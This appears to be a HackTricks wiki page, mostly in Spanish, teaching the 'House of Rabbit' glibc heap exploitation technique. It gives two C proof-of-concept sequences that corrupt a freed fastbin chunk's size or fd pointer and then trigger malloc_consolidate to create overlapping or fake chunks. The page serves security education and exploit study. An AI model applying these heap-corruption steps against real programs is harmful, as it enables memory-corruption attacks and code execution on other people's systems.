 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **Capacidad para modificar el puntero fd de fast bin o su tamaño**: Esto significa que puedes cambiar el puntero hacia adelante de un chunk en el fastbin o su tamaño.
2. **Capacidad para activar `malloc_consolidate`**: Esto se puede hacer al asignar un chunk grande o fusionar el chunk superior, lo que obliga al heap a consolidar chunks.

### Goals

1. **Crear chunks superpuestos**: Para que un chunk se superponga con otro, permitiendo más manipulaciones del heap.
2. **Forjar chunks falsos**: Para engañar al asignador haciéndole tratar un chunk falso como un chunk legítimo durante las operaciones del heap.

## Steps of the attack

### POC 1: Modificar el tamaño de un chunk de fast bin

**Objetivo**: Crear un chunk superpuesto manipulando el tamaño de un chunk de fastbin.

* **Paso 1: Asignar Chunks**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fast bin list once freed.

* **Paso 2: Liberar Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
We free both chunks, adding them to the fastbin list.

* **Paso 3: Modificar el tamaño del chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
Cambiamos los metadatos de tamaño de `chunk1` a 0xa1. Este es un paso crucial para engañar al asignador durante la consolidación.

* **Paso 4: Activar `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Asignar un gran bloque activa la función `malloc_consolidate`, fusionando pequeños bloques en el fast bin. El tamaño manipulado de `chunk1` hace que se superponga con `chunk2`.

Después de la consolidación, `chunk1` se superpone con `chunk2`, lo que permite una mayor explotación.

### POC 2: Modificar el puntero `fd`

**Objetivo**: Crear un bloque falso manipulando el puntero `fd` del fast bin.

* **Paso 1: Asignar Bloques**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explicación**: Asignamos dos trozos, uno más pequeño y uno más grande, para preparar el heap para el trozo falso.

* **Paso 2: Crear trozo falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
Escribimos metadatos de chunk falsos en `chunk2` para simular chunks más pequeños.

* **Paso 3: Liberar `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explicación**: Liberamos `chunk1`, añadiéndolo a la lista fastbin.

* **Paso 4: Modificar `fd` de `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explicación**: Cambiamos el puntero hacia adelante (`fd`) de `chunk1` para que apunte a nuestro chunk falso dentro de `chunk2`.

* **Paso 5: Activar `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Asignar un gran bloque nuevamente activa `malloc_consolidate`, que procesa el bloque falso.

El bloque falso se convierte en parte de la lista fastbin, haciéndolo un bloque legítimo para una mayor explotación.

### Resumen

La técnica **House of Rabbit** implica modificar el tamaño de un bloque fast bin para crear bloques superpuestos o manipular el puntero `fd` para crear bloques falsos. Esto permite a los atacantes forjar bloques legítimos en el heap, habilitando varias formas de explotación. Comprender y practicar estos pasos mejorará tus habilidades de explotación de heap.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
